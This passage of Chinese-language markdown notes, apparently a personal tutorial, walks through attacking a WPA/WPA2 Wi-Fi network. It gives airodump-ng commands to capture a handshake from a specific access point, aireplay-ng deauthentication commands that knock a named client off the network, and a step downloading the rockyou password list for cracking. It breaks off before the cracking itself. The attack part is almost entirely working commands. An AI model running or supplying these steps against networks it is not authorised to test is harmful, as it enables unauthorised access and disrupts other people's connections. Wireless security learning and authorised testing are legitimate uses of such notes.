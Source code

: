     # 查看是不是被没有wlan0，而出现wlan0mon。则表示开启监听模式成功。
    iwconfig

    # 监听附近的802.11 beacon frames。PWR为信号，绝对值越小越好；BSSID为mac地址，CH为信道，这两个需要记住。
    airodump-ng wlan0mon

    # 新建目录
    mkdir /tmp/test

    # 抓取握手包（WPA/WPA2使用4次握手），需要等连接wifi的设备重新连接。如果不想等，可以使用deauth攻击。显示[ WPA handshake: bc:CC:89:5E:92:D9:B0则表示成功抓取。
    # -c表示信道 --bssid表示mac地址，并将抓取的握手包保存在/tmp/test目录下。
    # ??失败不知道为什么无法显示连接wifi设备的条目，同时也无法抓取握手包。
    airodump-ng -c 11 --bssid 9C:5C:8E:C9:AB:C0 -w /tmp/test/ wlan0mon

    # 抓取成功后，按ctrl-c退出airodump-ng。我这里进行了重命名文件
    mv /tmp/test/-01.cap /tmp/test/hackme.cap
    ```

- deauth攻击：伪造的取消身份验证数据包，发送到连接wifi的设备。收到此类数据包后，大多数设备会断开与wifi并立即重新连接
    ```sh
    # 打开一个新终端
    # -0 2 发送2个deauth packets
    # -a 路由器的mac地址
    # -c 连接wifi设备的mac地址
    aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 wlan0mon

    # 也可以使用广播
    aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 wlan0mon
    ```

- 破解密码
    ```sh
    # 下载密码字典
    curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
    ```

